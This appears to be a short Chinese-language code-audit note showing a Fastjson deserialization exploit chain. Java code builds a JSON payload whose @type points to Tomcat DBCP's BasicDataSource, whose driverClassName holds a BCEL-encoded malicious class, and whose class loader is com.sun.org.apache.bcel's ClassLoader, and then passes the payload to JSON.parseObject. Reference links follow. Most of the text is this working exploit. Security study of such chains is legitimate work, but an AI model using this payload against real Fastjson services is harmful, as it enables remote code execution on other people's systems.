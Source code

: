 Payload：

首先生成恶意类

<img width="849" height="327" alt="image" src="https://github.com/user-attachments/assets/57e88b93-8a03-44d4-8f15-a49449529189" />

编译成class文件，
读取恶意class，利用Utility.encode将其编码，
@type指向BasicDataSource类，设置driverClassName为编码后的code，再@type将driverClassloader指向bcel.internal.util.ClassLoader，利用bcel.internal.util.ClassLoader加载恶意的class类

<img width="2400" height="567" alt="image" src="https://github.com/user-attachments/assets/540cea33-ea44-43d6-843a-b234648890ca" />

    public class Bcel {

    public static void main(String[] args) throws Exception {

        byte[] bytes = Files.readAllBytes(Paths.get("D:\\code-audit\\Fastjson1\\src\\main\\java\\EEEE.class"));
        String code = Utility.encode(bytes, true);
        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassName\":\"$$BCEL$$" + code + "\",\"driverClassloader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSON.parseObject(s);
    }
    
    }

<img width="1797" height="942" alt="image" src="https://github.com/user-attachments/assets/c038b158-2a83-4b49-97c6-3b5be83d2f56" />

参考连接：

https://y4er.com/posts/fastjson-learn/

https://www.bilibili.com/video/BV1pP411N726/
